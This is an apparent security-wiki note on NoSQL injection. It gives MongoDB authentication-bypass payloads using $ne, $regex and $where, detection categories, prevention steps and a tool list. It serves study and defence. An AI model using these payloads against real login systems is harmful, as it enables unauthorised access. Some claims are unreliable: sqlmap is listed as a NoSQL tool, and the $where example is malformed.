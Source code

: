 # NoSQL Injection

## Overview
NoSQL injection is a vulnerability that allows attackers to manipulate NoSQL database queries by injecting malicious code into user input fields. Unlike traditional SQL injection, NoSQL databases use different query languages and structures.

## Common NoSQL Databases
- **MongoDB** - Document-based database
- **CouchDB** - Document-oriented database  
- **Redis** - Key-value store
- **Cassandra** - Wide-column store
- **Neo4j** - Graph database

## Attack Vectors

### MongoDB Injection
```javascript
// Vulnerable query
db.users.find({username: userInput, password: passInput})

// Malicious payload
username: {$ne: null}
password: {$ne: null}
```

### Authentication Bypass
```javascript
// URL encoded payload
username[$ne]=&password[$ne]=

// JSON payload
{"username": {"$ne": null}, "password": {"$ne": null}}
```

### Operator Injection
```javascript
// $where operator injection
{"username": "admin", "password": {"$where": "return true"}}

// $regex operator
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}
```

## Detection Techniques
- **Error-based**: Trigger database errors to identify NoSQL usage
- **Boolean-based**: Use logical operators to infer data
- **Time-based**: Inject time delays to confirm injection
- **Union-based**: Extract data using NoSQL-specific operators

## Prevention
1. **Input Validation**: Validate and sanitize all user inputs
2. **Parameterized Queries**: Use proper query builders
3. **Least Privilege**: Limit database user permissions
4. **Rate Limiting**: Prevent brute force attempts
5. **WAF Rules**: Implement Web Application Firewall protection

## Tools
- [[Burpsuite]] - Manual testing with proxy
- [[sqlmap]] - Automated NoSQL injection testing
- [[NoSQLMap]] - Specialized NoSQL injection tool

## Related Topics
- [[SQL Injection]]
- [[Burpsuite]]
- [[Web application security]]
